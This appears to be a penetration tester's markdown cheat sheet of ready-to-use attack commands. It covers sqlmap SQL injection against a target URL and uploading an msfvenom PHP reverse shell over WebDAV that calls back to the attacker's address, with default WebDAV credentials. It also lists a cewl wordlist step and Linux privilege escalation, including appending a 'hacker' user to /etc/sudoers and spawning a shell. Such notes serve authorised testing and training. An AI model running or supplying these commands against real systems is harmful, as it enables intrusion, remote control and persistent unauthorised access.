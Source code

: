 ### SQL-Injection

```
# Post
get post request from Burp and save as search-test.txt
sqlmap -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```

### WebDav

```
cadaver INSERTIPADDRESS
Try to put a shell.php

cd /root/Dropbox/Engagements/INSERTIPADDRESS/exploit && msfvenom -p linux/x86/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f php -o shell.php

put /root/Dropbox/Engagements/INSERTIPADDRESS/exploit/shell.php
If the .asp extention is not allowed, try shell.asp.txt and use the mv command

user: wampp
pass: xampp 
```

### Password brute force - last resort

```
cewl http://INSERTIPADDRESS
```
----------------------------------------------------------------------------


-----------------------------------------------------------------------------
#Privesc

### First Steps

```
# Jail Break
https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells

# Spawning shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Add user to sudoers
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers

# Writable directories
/tmp
/var/tmp
Find a writable directory:
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
find / -user <user>

# Run as another user
sudo - user -c 'ls'
runuser -l user -c 'ls'
```